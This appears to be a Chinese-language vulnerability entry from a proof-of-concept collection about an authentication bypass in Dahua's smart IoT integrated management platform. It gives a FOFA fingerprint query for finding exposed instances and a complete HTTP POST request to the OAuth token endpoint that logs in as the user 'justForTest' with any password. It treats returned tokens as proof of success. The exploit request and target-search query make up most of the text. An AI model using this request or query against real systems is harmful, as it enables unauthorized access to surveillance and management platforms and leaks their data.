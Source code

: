 ## 大华智能物联综合管理平台justForTest用户登录漏洞
浙江大华技术股份有限公司智能物联综合管理平台 用户登录接口/evo-apigw/evo-oauth/oauth/token存在漏洞，使用用户justForTest/任意密码即可成功登录平台，造成信息泄露。

## fofa
```
icon_hash="-1935899595"body="*客户端会小于800*"
```

## poc
```
POST /evo-apigw/evo-oauth/oauth/token HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Content-Length: 109
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
 
username=justForTest&password=1&grant_type=password&client_id=web_client&client_secret=web_client&public_key=
```
出现各种token证明漏洞存在

![image](../../images/5f1c189e-2d92-4d73-a6c2-8593367c74bb.png)
